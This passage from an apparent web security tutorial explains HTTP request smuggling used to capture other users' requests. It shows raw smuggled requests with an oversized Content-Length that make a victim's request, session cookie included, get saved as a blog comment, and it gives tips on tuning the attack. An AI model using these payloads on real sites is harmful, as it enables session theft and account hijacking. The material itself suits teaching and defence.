 Now consider what would happen if you smuggle an equivalent request with an overly long Content-Length header and the comment parameter positioned at the end of the request as follows:
```bash
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

The Content-Length header of the smuggled request indicates that the body will be 400 bytes long, but we've only sent 144 bytes. In this case, the back-end server will wait for the remaining 256 bytes before issuing the response, or else issue a timeout if this doesn't arrive quick enough. As a result, when another request is sent to the back-end server down the same connection, the first 256 bytes are effectively appended to the smuggled request as follows:
```bash
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```
As the start of the victim's request is contained in the comment parameter, this will be posted as a comment on the blog, enabling you to read it simply by visiting the relevant post.

To capture more of the victim's request, you just need to increase the value of the smuggled request's Content-Length header accordingly, but note that this will involve a certain amount of trial and error. If you encounter a timeout, this probably means that the Content-Length you've specified is higher than the actual length of the victim's request. In this case, simply reduce the value until the attack works again. 

> Note:
>
> One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the & character, meaning that the content that is stored from the victim user's request will end at the first &, which might even appear in the query string 
